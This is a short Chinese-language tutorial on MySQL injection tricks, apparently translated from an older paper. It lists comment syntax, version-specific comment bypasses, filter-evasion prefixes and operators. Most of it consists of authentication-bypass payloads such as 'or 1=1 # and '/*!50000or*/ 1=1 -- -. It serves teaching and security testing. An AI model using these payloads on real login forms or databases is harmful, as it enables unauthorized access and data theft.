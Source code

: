 # MySQL注入技巧

原文地址：http://websec.files.wordpress.com/2010/11/sqli2.pdf

0x00、介绍
=======

* * *

也可以参考瞌腄龙的mysql注入科普：http://drops.wooyun.org/tips/123

很多东西都是一样的，但是有一些小技巧确实很使用。

以下所有技巧都只在mysql适用，因为它太灵活了

0x01 MYSQl灵活的语法
===============

* * *

**1 MySQL语法以及认证绕过**

注释符：

```
#， 
-- X(X为任意字符)
/*(MySQL-5.1)
;%00
`
'or 1=1;%00
'or 1=1 union select 1,2`'
'or 1=1 #
'/*!50000or*/ 1=1 -- -      //版本号为5.1.38时只要小于50138
'/*!or*/ 1=1 -- -

```

前缀：

任意混合`+ - ~ !`

```
'or --+2=- -!!!'2

```

测试后发现`and/or`后面可以跟上偶数个`!、~`可以替代空格，也可以混合使用(混合后规律又不同)，and/or前的空格可以省略

```
'or- -!!!1=1；

```

运算符：

```
^, =, !=, %, /, *, &, &&, |, ||, <, >, <<, >>, >=, <=, <>, <=>, XOR,DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN,……

'or 1 rlike '1

```
